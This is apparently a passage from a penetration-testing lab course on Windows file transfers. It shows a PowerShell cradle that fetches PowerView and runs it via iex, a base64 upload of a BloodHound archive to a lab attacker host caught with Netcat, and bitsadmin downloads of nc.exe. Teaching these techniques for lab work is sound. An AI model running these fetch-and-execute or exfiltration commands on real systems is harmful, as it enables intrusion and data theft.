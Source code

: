 ```
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
PS C:\htb> Invoke-CheckLocalAdminAccess

ComputerName IsAdmin
------------ -------
localhost      False
```

Alternatively, with administrative access to the machine, we can disable Internet Explorer’s First Run customization.

```
C:\htb> reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```

Powershell download cradles that do not observe Internet Explorer’s first-run check can also be used. Harmj0y has compiled an extensive list of PowerShell download cradles here. It is worth gaining familiarity with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

#### PowerShell File Uploads


It is also possible to upload files using Powershell using Invoke-WebRequest or Invoke-RestMethod.

```
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))

PS C:\htb> Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```

After catching the base64 data with Netcat, the payload can be decoded.

```
Waheed Nusrat@htb[/htb]$ echo <base64> | base64 -d -w 0 > bloodhound.zip
```

#### Bitsadmin


The Background Intelligent Transfer Service (BITS) can download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user’s foreground work.

```
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.


##### Download
```
PS C:\htb> Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```
